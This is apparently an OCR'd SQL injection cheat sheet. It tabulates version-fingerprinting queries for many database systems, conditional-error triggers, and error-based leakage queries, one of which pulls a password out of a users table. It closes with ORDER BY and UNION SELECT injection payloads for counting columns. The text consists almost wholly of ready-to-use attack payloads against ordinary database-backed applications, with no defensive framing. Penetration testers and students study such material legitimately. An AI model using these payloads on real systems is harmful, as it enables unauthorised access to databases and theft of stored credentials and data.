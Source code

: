 ### **Database Fingerprinting (Version Detection)**

| DBMS | Query |
| --- | --- |
| **MySQL / MariaDB** | `SELECT @@version;` |
| **PostgreSQL** | `SELECT version();` |
| **Oracle** | `SELECT * FROM v$version;` |
| **Microsoft SQL Server (MSSQL)** | `SELECT @@version;` |
| **SQLite** | `SELECT sqlite_version();` |
| **IBM DB2** | `SELECT service_level FROM TABLE (sysproc.env_get_inst_info()) AS INSTANCEINFO;` |
| **Firebird** | `SELECT rdb$get_context('SYSTEM', 'ENGINE_VERSION') FROM rdb$database;` |
| **SAP HANA** | `SELECT * FROM "SYS"."M_DATABASE";` |
| **CockroachDB** | `SHOW CLUSTER SETTING version;` |
| **Amazon Redshift** | `SELECT version();` |
| **Teradata** | `SELECT * FROM DBC.DBCInfoV;` |
| **Informix** | `SELECT dbinfo('version', 'full') FROM systables WHERE tabid = 1;` |

### Conditional Errors (Boolean Trigger)

| DBMS | Example |
| --- | --- |
| Oracle | `SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (condition) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (condition) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL | `SELECT IF(condition,(SELECT table_name FROM information_schema.tables),'a')` |

### Error-Based Data Leakage

| DBMS | Example |
| --- | --- |
| Microsoft | `SELECT 'foo' WHERE 1 = (SELECT 'secret')` → Conversion failed when converting varchar to int |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)` → invalid input syntax for integer |
| MySQL | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` → XPATH syntax error |

### **Detecting Number of Columns**

| Technique | Payload |
| --- | --- |
| ORDER BY | `' ORDER BY 1--` then `' ORDER BY 2--`... until error |
| UNION SELECT | `' UNION SELECT NULL--` then add `,NULL` until no error |
